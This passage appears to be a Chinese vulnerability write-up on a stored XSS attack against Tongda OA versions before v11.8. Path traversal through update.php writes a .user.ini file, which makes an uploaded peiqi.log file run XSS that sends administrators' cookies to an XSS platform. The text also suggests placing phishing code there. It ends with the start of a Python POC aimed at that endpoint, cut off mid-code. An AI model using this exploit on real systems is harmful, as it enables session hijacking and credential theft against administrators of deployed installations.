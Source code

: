 这里拼接后上传就变成了 **.user.ini**

![image-20220209111339894](./images/202202091113999.png)

这里再上传 XSS文件 **peiqi.log** 被包含进去

![image-20220209111358294](./images/202202091113385.png)

上传后每次管理员登录后都会带着Cookie请求一次XSS平台

![image-20220209111423483](./images/202202091114571.png)

钓鱼什么的代码写在peiqi.log文件里就好啦

刚刚提到了 v11.7版本不方便利用，这是因为在后续版本加上了文件上传的规定路径

![image-20220209111524536](./images/202202091115646.png)

```php
if ((strpos($source, "webroot") !== false) && (strpos($source, "attachment") === false)) {
		return false;
	}
	else {
		return true;
	}
```

路径中必须要包含  **webroot 和 attachment** 才可以上传

![image-20220209111502133](./images/202202091115242.png)

这里XSS的利用点有4个文件夹，其中最有几率XSS的为**存储目录管理的文件夹**

![image-20220209111547012](./images/202202091115069.png)

用同样的方法上传利用文件，每次当管理员设置时就会盗取Cookie

## 漏洞POC

因为是xss可能对目标有影响，所以这里POC在一个不常用目录探测是否存在漏洞

Cookie填写访问后台时的Cookie, 其中的base64解码更改 PeiQi_Wiki为 自己的XSS语句

v11.6及以下 攻击 /general 和 /general/system/attachment 目录较好

v11.6以上 攻击  /general/system/attachment 目录较好

```python
import requests
import sys
import random
import re
import base64
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: 通达OA < V11.8                                             \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mCookie      >>> xxxxxxxxxxxxxxxxxxxxxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, Cookie):
    vuln_url = target_url + "/general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop\workshop/report/attachment-remark/.user"
    headers = {
```